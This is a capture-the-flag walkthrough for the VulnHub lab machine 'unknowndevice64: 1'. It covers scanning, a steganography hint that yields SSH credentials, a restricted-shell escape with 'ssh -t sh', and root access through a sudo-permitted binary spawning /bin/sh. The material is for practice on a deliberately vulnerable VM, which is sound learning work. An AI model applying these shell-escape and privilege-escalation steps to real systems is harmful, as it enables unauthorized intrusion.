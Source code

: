 
# unknowndevice64: 1 — VulnHub Walkthrough

**Difficulty:** Intermediate  
**Goal:** Get root and read `/root/flag.txt`  
**Focus Areas:** Steganography, Web Exploitation, Restricted Shell Escape

---

## 🛠️ Setup

- Download VM from VulnHub
- Recommended: Use **VirtualBox**
- Ensure your machine and target VM are on the same network

---

## 1. Finding Target IP

Use `netdiscover` to locate the target:

```bash
netdiscover -i eth0 -r <your-network-range>
```

Target IP found:

```
192.168.133.215
```

---

## 2. Nmap Enumeration

Scan open ports and services:

```bash
nmap -sV 192.168.133.215
```

Result:
- **Port 31337/tcp** open — Simple Python Web Server

---

## 3. Web Page Analysis

Access:

```
http://192.168.133.215:31337
```

- Dark-themed page
- Found hint in page source:
  ```
  key_is_h1dd3n.jpg
  ```

Download the hidden image:

```
http://192.168.133.215:31337/key_is_h1dd3n.jpg
```

---

## 4. Steganography

Check file type:

```bash
file key_is_h1dd3n.jpg
```

Extract hidden data using **"h1dd3n"** as the passphrase.  
Recovered file:

```
h1dd3n.txt
```

---

## 5. Decoding h1dd3n.txt

The file content was encoded in **Brainfuck**.

Used [dCode Brainfuck Decoder](https://www.dcode.fr/brainfuck-language) to decode.  
Found credentials:

```
Username: ud64
Password: 1M!#64@ud
```

---

## 6. SSH Access

Login with SSH:

```bash
ssh ud64@192.168.133.215 -p 1337
```

- Shell is restricted (`rbash`).
- Commands like `ls`, `cd` blocked.

Bypass restricted shell:

```bash
ssh ud64@192.168.133.215 -p 1337 -t sh
```

---

## 7. Privilege Escalation

List files:

```bash
ls -la
```

Found binary:

```bash
sudo /usr/bin/sysud64
```

Exploit it:

```bash
sudo sysud64 -o /dev/null /bin/sh
```

Confirm root:

```bash
whoami
```

---

## 8. Capture the Flag

Navigate and read the flag:

```bash
cd /root
cat flag.txt
```

✅ **Rooted Successfully!**

---

> “A hacker does for love what others would not do for money.”

---

